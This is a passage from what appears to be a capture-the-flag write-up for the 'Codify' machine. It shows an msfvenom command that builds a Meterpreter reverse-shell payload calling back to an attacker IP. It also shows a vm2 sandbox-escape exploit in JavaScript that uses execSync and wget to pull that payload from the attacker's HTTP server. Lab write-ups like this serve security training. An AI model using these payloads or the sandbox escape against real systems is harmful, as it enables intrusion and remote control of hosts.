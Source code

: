 So now all I have to do is create a reverse shell file, upload it, and then run it from the code editor

Create the Reverse Shell
``` bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1337 -f elf >reverse.elf
```

Start a python http server again
``` bash
$ python3 -m http.server 1234
```

And now download the reverse shell to the target machine with this code
``` text
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('wget http://10.10.14.2:1234/reverse.elf'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

We can confirm that the file was downloaded
![](Codify/downloadrevshell.png)

### First Shell

